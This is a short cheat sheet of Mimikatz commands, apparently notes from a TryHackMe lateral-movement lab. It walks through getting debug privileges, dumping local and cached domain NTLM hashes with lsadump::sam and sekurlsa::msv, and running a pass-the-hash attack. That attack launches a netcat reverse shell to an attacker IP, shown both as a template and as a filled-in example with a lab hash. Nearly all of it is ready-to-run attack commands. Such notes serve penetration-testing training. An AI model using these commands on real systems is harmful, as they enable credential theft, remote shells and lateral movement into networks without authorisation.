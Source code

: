 # Mimikatz Commands

```
privilege::debug
```
```
token::elevate
```
This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available:
```
lsadump::sam
```
This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.
```
sekurlsa::msv
```

We can then use the extracted hashes to perform a Pass the Hash (PtH) attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:
```
token::revert
```
```
sekurlsa::pth /user:[USERNAME] /domain:[DOMAIN] /ntlm:[HASH] /run:"c:\tools\nc64.exe -e cmd.exe [ATTACK-IP] [PORT]"
```
Example:
```
sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe 10.50.61.3 5555"
```
Notice we used token::revert to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work. This would be the equivalent of using runas /netonly but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user. Interestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.

**********************************************************************

## Reference

* https://tryhackme.com/room/lateralmovementandpivoting
